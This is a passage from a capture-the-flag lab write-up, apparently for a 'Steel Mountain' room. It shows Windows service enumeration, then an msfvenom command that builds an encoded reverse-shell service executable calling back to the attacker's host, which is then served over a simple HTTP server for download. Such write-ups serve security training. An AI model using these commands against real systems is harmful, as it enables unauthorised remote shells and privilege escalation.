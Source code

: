 ```bash
              ((((((((((((((((((((((((((((((((((((((                                                                                                                                                                                        
                 (((((((((((((((((((((((((((((( 
     
<snip>
```
{% endraw %}

<br />
Look up all the services.

{% raw %}
```bash
LookC:\Users\bill>powershell -c "Get-Service"
powershell -c "Get-Service"

Status   Name               DisplayName                           
------   ----               -----------                           
Stopped  AdvancedSystemC... Advanced SystemCare Service 9         
Stopped  AeLookupSvc        Application Experience                
Stopped  ALG                Application Layer Gateway Service     
Running  AmazonSSMAgent     Amazon SSM Agent                      
Running  AppHostSvc         Application Host Helper Service 

<snip>
```
{% endraw %}

<br />
Generate the service binary payload with msfvenom...again.  Or use the last one from the meterpreter run.

{% raw %}
```bash
root@ip-10-10-30-38:~/Rooms/steelmountain# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.30.38 LPORT=9001 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: Advanced.exe
root@ip-10-10-30-38:~/Rooms/steelmountain# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 

<snip>
```
{% endraw %}
